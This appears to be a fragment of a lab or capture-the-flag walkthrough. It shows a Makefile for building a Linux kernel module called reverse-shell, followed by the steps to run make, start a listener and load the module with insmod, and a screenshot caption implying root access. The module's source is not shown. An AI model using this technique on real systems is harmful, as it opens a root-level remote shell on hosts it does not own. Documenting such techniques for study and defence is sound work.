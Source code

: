 **Create a Makefile to compile the kernel module.**
```makefile
obj-m +=reverse-shell.o
all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

**Run `make`**

**Start reverse shell listener**

**Execute module `insmod reverse-shell.ko`**

![](screenshots/monitor-rooted.png)